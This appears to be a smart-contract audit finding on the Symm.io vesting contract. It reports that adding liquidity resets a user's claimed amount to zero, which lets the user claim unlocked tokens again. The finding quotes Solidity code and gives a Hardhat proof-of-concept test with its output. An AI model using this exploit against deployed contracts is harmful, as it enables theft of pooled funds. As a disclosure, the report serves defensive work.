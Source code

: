 Rural Orchid Capybara

High

# Malicious users can exploit the Vesting contract to claim more rewards than they are entitled to

### Summary

In `SymmVesting.sol` each time user adds liquidity, it will call `symmVestingPlan.resetAmount(symmLockedAmount - amountsIn[0]);`, which will update the amount of the vesting to be equal to the new amount. The problem is that this will also reset the claimedAmount, which effectivly allows the user to claim the unlocked amount again.

### Root Cause

In `_addLiquidityProcess.sol`, `symmVestingPlan.resetAmount(symmLockedAmount - amountsIn[0]);` is called. This will call `resetAmount` from `LibVestingPlan.sol`:
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/libraries/LibVestingPlan.sol#L80
```solidity
function resetAmount(VestingPlan storage self, uint256 amount) public returns (VestingPlan storage) {
		if (claimable(self) != 0) revert ShouldClaimFirst();
		if (!isSetup(self)) revert ShouldSetupFirst();
		// Rebase the vesting plan from now.
		uint256 remaining = remainingDuration(self);
		if (remaining == 0) revert PlanIsFinished();
		self.startTime = block.timestamp;
		self.endTime = block.timestamp + remaining;
		self.amount = amount;
		self.claimedAmount = 0;
		return self;
	}
```

This will update the amount, update the end time and reset the claimedAmount. 
This is problematic because claimedAmount contains how much of the unlockedTokens were claimed. 

```solidity
	/// @notice Calculates the claimable amount.
	/// @param self The vesting plan.
	/// @return The claimable token amount.
	function claimable(VestingPlan storage self) public view returns (uint256) {
		return unlockedAmount(self) - self.claimedAmount;
	}
```

Because claimAmount is set to 0, users can directly call `claimUnlockedTokens` from `Vesting.sol` and claim the rewards again:

```solidity
/// @notice Internal function to claim unlocked tokens.
	/// @param token Address of the token.
	/// @param user Address of the user.
	function _claimUnlockedToken(address token, address user) internal {
		VestingPlan storage vestingPlan = vestingPlans[token][user];

// Claimable will = unlockedAmount and will allow users to claim the tokens again
		uint256 claimableAmount = vestingPlan.claimable();

		// Adjust the vesting plan
		totalVested[token] -= claimableAmount;
		vestingPlan.claimedAmount += claimableAmount;

		// Ensure sufficient balance (minting if necessary)
		_ensureSufficientBalance(token, claimableAmount);

		IERC20(token).transfer(user, claimableAmount);

		emit UnlockedTokenClaimed(token, user, claimableAmount);
	}
```

### Internal Pre-conditions

Vesting schedule setup
Schedule shouldnt be over

### External Pre-conditions

None

### Attack Path

1. Malicious user adds liquidity to the vesting contract
2. Call `claimUnlockedToken`

### Impact

- Users will reclaim their rewards each time they add liquidity
- Malicious users can use this vulnerability to drain the contract of all funds

### PoC

1. In `symmVesting.behaviour.ts` add the following right after `describe("Add Liquidity", () => {`:

```typescript
		describe('Vulnerabilities', () => {
			it('reset claim tokens to 0 when user adds liquidity, which allows attackers to claim unlocked tokens again', async () => {
				const symmAmount = e(100);
				const minLpAmount = e("0.05")

				//claim all unlocked tokens
				await symmVesting.connect(user1).claimUnlockedToken(await symmToken.getAddress());

				const beforeSymmTokenBalance = await symmToken.balanceOf(await user1.getAddress());
				console.log("User SYMM balance initial:", beforeSymmTokenBalance);

				//add liquidity and check user symm balance
				await symmVesting.connect(user1).addLiquidity(symmAmount, minLpAmount, user1UsdcAmount);

				const afterSymmTokenBalance = await symmToken.balanceOf(await user1.getAddress());
				console.log("User SYMM balance after adding liquidity:", afterSymmTokenBalance);

				const vestingPlans = await symmVesting.vestingPlans(await symmToken.getAddress(), await user1.getAddress());
				console.log("Claimed amount", vestingPlans.claimedAmount);

				//claim again. this shouldnt claim anything, since tokens are already claimed in the previous calls
				await symmVesting.connect(user1).claimUnlockedToken(await symmToken.getAddress());
				const afterClaimSymmTokenBalance = await symmToken.balanceOf(await user1.getAddress());
				console.log("User SYMM balance after claiming again:", afterClaimSymmTokenBalance);
			});
		});
```

2. add `shouldBehaveLikeSymmVesting();` at the bottom of the file
3. call the test with `npx hardhat test tests/symmVesting.behavior.ts`

This is the expected output:
```text
User SYMM balance initial: 169908521947873799725n
User SYMM balance after adding liquidity: 169908564814814814814n
Claimed amount 0n
User SYMM balance after claiming again: 169908602517633035945n
```

### Mitigation

_No response_